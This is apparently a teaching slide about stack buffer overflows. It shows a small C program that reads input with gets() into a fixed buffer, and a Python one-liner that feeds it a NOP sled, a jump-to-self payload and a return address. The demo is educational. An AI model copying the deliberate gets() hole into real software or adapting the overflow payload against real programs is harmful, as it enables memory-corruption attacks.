

# (slightly) more realistic vulnerability
void main()
{
    char buffer[100];
    printf("Enter name: ");
    gets(buffer);
    printf("Hello, %s!\n", buffer);
}

python –c “print ‘\x90’*110 + \
‘\xeb\xfe’ + ‘\x00\xd0\xff\xff’” | \
./a.out